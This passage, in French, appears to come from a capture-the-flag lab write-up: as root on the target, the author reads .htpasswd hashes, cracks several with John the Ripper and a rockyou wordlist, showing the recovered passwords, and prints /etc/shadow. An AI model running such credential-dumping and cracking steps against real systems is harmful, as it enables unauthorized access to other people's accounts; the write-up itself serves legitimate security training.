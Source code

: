 dstevens a des droits plutôt... permissifs, et on passe root très (trop !) facilement.

```console
[root@ctf4 dstevens]# cd /home/dstevens/html/restricted/
[root@ctf4 restricted]# ls -al
total 64
drwxrwsr-x  2 jdurbin users  4096 déc  1  2016 .
drwxrwsr-x 10 jdurbin users  4096 déc  1  2016 ..
-rw-rw-r--  1 jdurbin users   226 déc  1  2016 blog_instructions.txt
-rw-------  1 jdurbin users 12288 mar  9  2009 .email_instructions.txt.swp
-rw-rw-r--  1 jdurbin users   130 mar  9  2009 .htaccess
-rw-rw-r--  1 jdurbin users    88 mar  9  2009 .htpasswd
-rw-rw-r--  1 jdurbin users   210 déc  1  2016 webmail_instructions.txt
[root@ctf4 restricted]# cat .htaccess
AuthType Basic
AuthName "Restricted - authentication required"
AuthUserFile /var/www/html/restricted/.htpasswd
Require valid-user
[root@ctf4 restricted]# cat .htpasswd
ghighland:8RkVRDjjkJhq6
pmoore:xHaymgB2KxbJU
jdurbin:DPdoXSwmSWpYo
sorzek:z/a8PtVaqxwWg 
```

Le répertoire ```restricted``` ne le sera plus, dès lors que [__John The Ripper__](https://www.openwall.com/john/) n'aura fait qu'une bouchée de ces mots de passe.

```console
root@blinils:~# john .htpasswd --wordlist=/usr/share/dict/rockyou.txt
Using default input encoding: UTF-8
Loaded 4 password hashes with 4 different salts (descrypt, traditional crypt(3) [DES 128/128 AVX-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
pacman           (sorzek)
undone1          (ghighland)
Homesite         (pmoore)
```

### Attaque par dictionnaire avec John The Ripper sur le fichier /etc/shadow

Le fichier ```/etc/shadow``` est particulièrement intéressant, car [il contient les mots de passe hashés de chaque compte Unix](https://fr.wikipedia.org/wiki/Passwd), ainsi que la date de la dernière modification du mot de passe ou encore la date d'expiration des comptes. L'outil [__John The Ripper__](https://www.openwall.com/john/) est en mesure de [cracker les mots de passe Unix](https://korben.info/comment-cracker-un-mot-de-passe-sous-linux.html) si on lui fournit les fichiers ```/etc/passwd``` et ```/etc/shadow```, comme suit...

```console
[root@ctf4 ~]# cat /etc/shadow
root:$1$DSHH/MlC$DH8ClhHKeagYW4PwxICZC0:14309:0:99999:7:::
bin:*:14309:0:99999:7:::
daemon:*:14309:0:99999:7:::
adm:*:14309:0:99999:7:::
lp:*:14309:0:99999:7:::
--snip--
nfsnobody:!!:14309:0:99999:7:::
sshd:!!:14309:0:99999:7:::
dstevens:$1$fU8HOHqa$N542xtl0ft8NmsYkv5NFo/:14309:0:99999:7:::
achen:$1$kxyn25Oz$w.MMADGQYIq4F52hi9DUQ.:14309:0:99999:7:::
pmoore:$1$p0RXlomV$m03UsjoTZ08qG8gbWHgST0:14309:0:99999:7:::
jdurbin:$1$CYmEyuc.$FXAeZHkhywwENbqE8h0O.0:14309:0:99999:7:::
sorzek:$1$cWeWNRdU$VTtlKsoRBmhMghnkSwqCQ.:14312:0:99999:7:::
ghighland:$1$ooKvtZEY$N2RpSaIylgFlHnBkbwUGz0:14309:0:99999:7:::
ossec:!!:14312:0:99999:7:::
ossecm:!!:14312:0:99999:7:::
```